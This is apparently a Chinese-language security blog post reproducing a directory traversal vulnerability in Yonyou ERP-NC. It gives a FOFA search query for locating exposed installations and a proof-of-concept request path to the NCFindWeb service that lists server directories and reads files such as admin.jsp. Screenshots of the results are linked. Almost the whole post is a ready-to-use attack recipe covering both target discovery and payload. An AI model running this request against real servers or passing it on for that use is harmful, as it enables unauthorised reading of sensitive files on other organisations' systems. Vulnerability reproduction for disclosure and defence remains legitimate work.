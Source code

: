 ```yaml
---
title: ⽤友ERP-NC ⽬录遍历漏洞
top: false
categories:
- 渗透测试
tags:
- 漏洞复现
- 用友ERP-NC
date: 2021-04-29 18:15:26
cover: https://image.geoer.cn/%E7%94%A8%E5%8F%8Bfofa.jpg
---
```


### 漏洞描述

⽤友ERP-NC 存在⽬录遍历漏洞，攻击者可以通过⽬录遍历获取敏感⽂件信息 



### fofa语法

```bash
app="⽤友-UFIDA-NC"
```

![](https://image.geoer.cn/%E7%94%A8%E5%8F%8Bfofa.jpg)



### 复现

POC:

```bash
 /NCFindWeb?service=IPreAlertConfigService&filename=
```

![](https://image.geoer.cn/%E7%94%A8%E5%8F%8B%E4%BA%BApoc1.jpg)

查看文件（这里以admin.jsp为例）：

![](https://image.geoer.cn/%E7%94%A8%E5%8F%8Bpoc.jpg)
